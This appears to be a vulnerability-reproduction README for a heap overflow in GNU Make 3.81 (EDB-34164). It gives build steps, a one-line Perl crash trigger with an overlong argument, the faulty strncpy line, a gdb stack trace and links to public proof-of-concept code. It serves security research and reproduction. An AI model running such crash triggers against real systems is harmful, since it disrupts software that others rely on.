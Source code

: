 # EDB-34164

## Experiment Environment

Debian Jessie

[DockerFile](https://github.com/mudongliang/Dockerfiles/tree/master/EDB-34164)

[Docker Image](https://hub.docker.com/r/mudongliang/make-edb-34164/)

## INSTALL & Configuration

```
wget http://ftp.gnu.org/gnu/make/make-3.81.tar.gz;
** or **
wget https://raw.githubusercontent.com/mudongliang/source-packages/master/EDB-34164/make-3.81.tar.gz 

tar -xvf make-3.81.tar.gz;
cd make-3.81/;
./configure;
make;
```

## Problems in Installation & Configuration

## How to trigger vulnerability

```
./make `perl -e 'print "A" x 4000 . "B"x96 . "\xef\xbe\xad\xde"x4'`
```

## PoCs

[Exploit-DB Make 3.81 - Heap Overflow](https://www.exploit-db.com/exploits/34164/)

[LinuxFlaw Make 3.81 - Heap Overflow (PoC)](https://github.com/mudongliang/LinuxFlaw/blob/master/EDB-34164/34164.pl)

[exploitdb-database Make 3.81 - Heap Overflow (PoC)](https://github.com/offensive-security/exploit-database/blob/master/platforms/linux/dos/34164.pl)

## Vulnerability Details & Patch

### Root Cause

```
implicit.c:478

          strncpy (stem_str, stem, stemlen);

```

### Stack Trace

```
(gdb) info stack
#0  pattern_search (file=0x7fffffffa040, file@entry=0x7fffff006300, 
    archive=archive@entry=0, depth=depth@entry=2, 
    recursions=recursions@entry=1) at implicit.c:752
#1  0x000000000040cedd in pattern_search (file=0x631cf0, 
    file@entry=0xdeadbeefdeadbeef, archive=archive@entry=0, 
    depth=depth@entry=1, recursions=recursions@entry=0) at implicit.c:735
#2  0x000000000040d5b0 in try_implicit_rule (file=0xdeadbeefdeadbeef, 
    file@entry=0x631cf0, depth=depth@entry=1) at implicit.c:48
#3  0x0000000000418306 in update_file_1 (depth=1, file=0x631cf0)
    at remake.c:453
#4  update_file (file=file@entry=0x631cf0, depth=<optimized out>)
    at remake.c:307
#5  0x0000000000418c66 in update_goal_chain (goals=0x66c920)
    at remake.c:154
#6  0x000000000040389f in main (argc=<optimized out>, 
    argv=0x7fffffffdd18, envp=<optimized out>) at main.c:2198
```

## References

[1] [make-3.81](http://ftp.gnu.org/gnu/make/make-3.81.tar.gz)

[2] [make-3.81](https://raw.githubusercontent.com/mudongliang/source-packages/master/EDB-34164/make-3.81.tar.gz)

[3] [DockerFile](https://github.com/mudongliang/Dockerfiles/tree/master/EDB-34164)

[4] [Docker Image](https://hub.docker.com/r/mudongliang/make-edb-34164/)

[5][Exploit-DB Make 3.81 - Heap Overflow](https://www.exploit-db.com/exploits/34164/)

[6][LinuxFlaw Make 3.81 - Heap Overflow (PoC)](https://github.com/mudongliang/LinuxFlaw/blob/master/EDB-34164/34164.pl)

[7][exploitdb-database Make 3.81 - Heap Overflow (PoC)](https://github.com/offensive-security/exploit-database/blob/master/platforms/linux/dos/34164.pl)
